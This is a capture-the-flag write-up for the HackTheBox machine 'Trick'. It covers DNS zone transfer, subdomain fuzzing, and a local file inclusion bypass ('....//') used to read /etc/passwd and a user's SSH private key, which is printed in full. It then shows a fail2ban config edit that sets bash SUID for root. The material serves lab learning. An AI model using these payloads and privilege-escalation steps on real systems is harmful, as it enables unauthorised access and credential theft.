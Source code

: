 ```yaml
---
title: Trick writeup
date: 2022-06-27 16:00:00 +0200
categories: [Writeup, HackTheBox]
tags: ["Easy-box", "enumeration", "dns"]     # TAG names should always be lowercase
img_path: /assets/img/boxes/trick/
image: # Thumbnail 
  src: Trick.png
  width: 1000   # in pixels
  height: 400   # in pixels
---   
```

## Summary
This was a slightly tricky easy-box. It requires a lot of enumeration and even a custom wordlist. The foothold is pretty straightforward however, utilizing an LFI vulnerability to gain an ssh key. Privilege escalation is likewise pretty straightforward given the right blogposts.
## Foothold
We start out with a nmap port scan

```console
┌──(bitis㉿workstation)-[~/htb/Machines/trick]
└─$ nmap -sC -sV -p- 10.129.80.75 -o nmap/full.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-27 21:04 CEST
Nmap scan report for 10.129.80.75
Host is up (0.021s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 309.18 seconds
```
The systm has 4 ports open. 22, 25, 53 and 80. If we check out the website we realize it is extremely barren. 

![welcome](welcome.png)

After looking around for a while we realize nothing really interesting is happening here. What we realize is that on port 53 the box is hosting a DNS service. I tried enumerating vhosts and the like with gobuster, but didn't find anything interesting. While the scan didn't work, we can use `dig` to query the DNS service on the system. We can use the following command to perform an AXFR zone-transfer, gathering all domain names.

```console
┌──(bitis㉿workstation)-[~/htb/Machines/trick]
└─$ dig trick.htb axfr @10.129.80.75                                                                                                                                                                                                    9 ⨯

; <<>> DiG 9.18.1-1-Debian <<>> trick.htb axfr @10.129.80.75
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 23 msec
;; SERVER: 10.129.80.75#53(10.129.80.75) (TCP)
;; WHEN: Mon Jun 27 21:32:33 CEST 2022
;; XFR size: 6 records (messages 1, bytes 231)
```
More information on this can be found [here](https://www.acunetix.com/blog/articles/dns-zone-transfers-axfr/). We add the new domain to our `hosts` file and check it out. 

![](welcome2.png)

We are greeted with a login page. We do not know any credentials at this point, so this seems like a dead end at this point. We can use `sed` to prepend a string to each word in a list. Since we have a subdomain that starts with `preprod-`, we could append this to each line in our dns enumeration wordlist like so `sed -e 's/^/preprod-/' /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt > dict.txt`. We can then attempt to discover new subdomains via gobuster. 

```console
┌──(bitis㉿workstation)-[~/htb/Machines/trick]
└─$ gobuster vhost -u trick.htb -w dict.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://trick.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     dict.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/06/27 21:57:43 Starting gobuster in VHOST enumeration mode
===============================================================
Found: preprod-marketing.trick.htb (Status: 200) [Size: 9660]
Found: preprod-payroll.trick.htb (Status: 302) [Size: 9546] 
```
We find one new domain that we can add to our hosts file. 

![](welcome3.png)

An interesting aspect of this part is that it uses an argument in the URL, `?page` to load what page to view. If we try to use a path like `../../../../etc/passwd` we don't get anything, however if we try something like `....//....//....//....//etc/passwd` we get the passwd file:

![](passwd.png)

This works since the site is not filtering our inout properly. It replaces or removes the string `../`, but not correctly. This means that the string `....//` gets transformed into `../`, giving us LFI.

We now know that a user named michael exists. We can use the LFI vulnerability to access his ssh key:

```console
┌──(bitis㉿workstation)-[~/htb/Machines/trick]
└─$ curl http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//home/michael/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----

```
We can then use the key to login via SSH, giving us the user flag.

## Privilege escalation
Running `sudo -l` gives us the following:
```
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
michael@trick:~$ 
```
I found [this](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/) blogpost detailing how to abuse fail2ban to gain root privileges. It detials how you can rewrite the file `/etc/fail2ban/action.d/iptables-multiport.conf`{: .filepath} file to run a command when fail2ban bans an ip. We modify the config file to set the bash binary as SUID. We then setup hydra to attack the system, which will then execute the command we configured in the config file instead of banning our ip:

A snippet from the config file can be found below:

```bash
---SNIP---
# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = chmod u+s /bin/bash
---SNIP---
```

```console
michael@trick:~$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
michael@trick:~$ /bin/bash -p
bash-5.0# id
uid=1001(michael) gid=1001(michael) euid=0(root) groups=1001(michael),1002(security)
bash-5.0# 

```
rooted!